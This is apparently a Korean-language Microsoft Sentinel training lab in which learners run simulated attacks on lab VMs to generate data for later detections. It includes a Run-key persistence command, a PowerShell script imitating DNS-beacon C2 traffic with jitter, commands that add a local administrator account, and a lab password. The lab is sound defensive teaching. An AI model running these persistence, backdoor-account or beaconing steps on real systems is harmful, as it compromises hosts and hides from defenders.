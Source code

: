 ﻿---
lab:
    title: '연습 5 - 공격 수행'
    module: '모듈 7 - Microsoft Sentinel을 사용하여 검색 만들기 및 조사 수행'
---

# 모듈 7 - 랩 1 - 연습 5 - 공격 수행


### 작업 1: 엔드포인트용 Defender를 사용하여 구성된 Windows 공격

이 작업에서는 엔드포인트용 Microsoft Defender가 구성되어 있는 호스트에서 공격을 수행합니다.

1. WIN1 가상 머신에 Admin으로 로그인합니다. 암호로는 **Pa55w.rd**를 사용합니다.  

2. 작업 표시줄의 검색 창에 *명령*을 입력합니다.  검색 결과에 명령 프롬프트가 표시됩니다.  명령 프롬프트를 마우스 오른쪽 단추로 클릭하고 **관리자 권한으로 실행**을 선택합니다. 사용자 계정 컨트롤 창이 표시되면 **예**를 선택하여 앱을 실행하도록 허용합니다.

3. 명령 프롬프트의 각 행에 다음 명령을 입력하고 각 행의 끝에서 Enter 키를 누릅니다.

```Command
cd \
mkdir temp
cd temp
```
4. 공격 1 - 다음 명령을 명령 프롬프트 앱에 복사하여 실행합니다.

```Command
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

5. 공격 3 - 다음 명령을 복사하여 실행합니다.

```Command
notepad c2.ps1
```
**예**를 선택하여 새 파일을 만든 후 아래 PowerShell 스크립트를 *c2.ps1*에 복사합니다.

>**참고:** 가상 머신에 붙여 넣을 때는 길이 제한이 있을 수 있습니다. 명령을 바로 붙여 넣을 수 없는 경우 이 코드를 3개 섹션으로 나눠서 모든 스크립트를 가상 머신에 붙여 넣으세요.  메모장에서 연 *c2.ps1* 파일 내에서 스크립트가 여기에 나와 있는 명령과 동일하게 표시되는지 확인합니다.

```PowerShell
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)

$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)

$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
         $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }

    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```

메모장 메뉴에서 **파일**을 선택한 후 **저장**을 선택합니다. 명령 프롬프트 창에서 한 행에 명령을 하나 입력하고 Enter 키를 눌러 한 행에 하나씩 다음 명령을 입력합니다. **참고:** 오류를 해결하라는 메시지가 표시됩니다. 정상적인 현상이므로 무시하세요.

```Command
powershell
.\c2.ps1
```

>**중요:** 창을 닫지 마세요. 이 명령/PowerShell 스크립트를 백그라운드에서 실행하고 명령이 몇 시간 동안 로그 항목을 생성해야 합니다. 이 스크립트가 실행되는 동안 다음 작업과 다음 연습을 진행해도 됩니다. 이 작업에서 생성되는 데이터를 나중에 위협 헌팅 랩에서 사용합니다. 이 프로세스에서 대량의 데이터가 작성되거나 처리되지는 않습니다.


### 작업 2: Sysmon을 사용하여 구성된 Windows 공격

이 작업에서는 보안 이벤트 커넥터와 Sysmon이 구성되어 있는 호스트에서 공격을 수행합니다.

1. WIN2 가상 머신에 Admin으로 로그인합니다. 암호로는 **Pa55w.rd**를 사용합니다.  

2. 작업 표시줄의 검색 창에 *CMD*를 입력합니다.  검색 결과에 명령 프롬프트가 표시됩니다.  명령 프롬프트를 마우스 오른쪽 단추로 클릭하고 **관리자 권한으로 실행**을 선택합니다.  사용자 계정 컨트롤 메시지가 표시되면 수락합니다.

3. 명령 프롬프트의 각 행에 다음 명령을 입력하고 각 행의 끝에서 Enter 키를 누릅니다.

```Command
cd \
mkdir temp
cd \temp
```

4. 공격 1 - 다음 명령을 명령 프롬프트 앱에 복사하여 실행합니다.

```Command
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

>**참고:** WIN1에서와 동일한 *지속성* 전술을 사용하지만 다음 연습에서는 다른 검색을 사용할 것입니다.

5. 공격 2 - 다음 명령을 복사하여 실행합니다. 각 행에 다음 명령을 입력하고 각 행의 끝에서 Enter 키를 누릅니다.

```Command
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

## 연습 6 계속 진행
